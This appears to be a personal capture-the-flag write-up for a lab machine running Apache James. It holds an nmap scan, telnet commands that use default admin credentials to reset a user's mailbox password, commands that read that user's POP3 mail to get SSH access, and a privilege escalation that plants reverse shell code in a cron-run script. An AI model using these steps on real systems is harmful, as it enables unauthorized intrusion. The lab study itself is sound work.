 # Information gathering

## system network

10.10.10.51

## Nmap Scan Result

``` bash
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.13 [10.10.14.13])
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp open  pop3    JAMES pop3d 2.3.2
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
119/tcp open  nntp    JAMES nntpd (posting ok)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Exploit

[Apache James RCE](https://www.exploit-db.com/exploits/50347)

_login apache james admin panel_

```bash
telnet 10.10.10.51 4555
root
root

setpassword mindy mindy
```

_login pop3 server_

```bash
telnet 10.10.10.51 110
USER mindy
PASS mindy
LIST
RETR 1
RETR 2
```

_get login credential of mindy_

![[Pasted image 20221228194823.png]]

_ssh login_

```bash
ssh mindy@10.10.10.51
```

#### Proof

![[Pasted image 20221228201413.png]]

### Lateral Movement



### Privilege Escalation

_linpeas.sh

_pspy32_
![[Pasted image 20221228202503.png]]

[[提权Tips]]

发现定时执行`rm -r /tmp/*`

_search to find a python script_

```bash
grep -r 'rm -r /tmp/*' / 2>/dev/null
```

![[Pasted image 20221228202701.png]]

_insert reverseshell code_

![[Pasted image 20221228202757.png]]

#### proof

![[Pasted image 20221228202508.png]]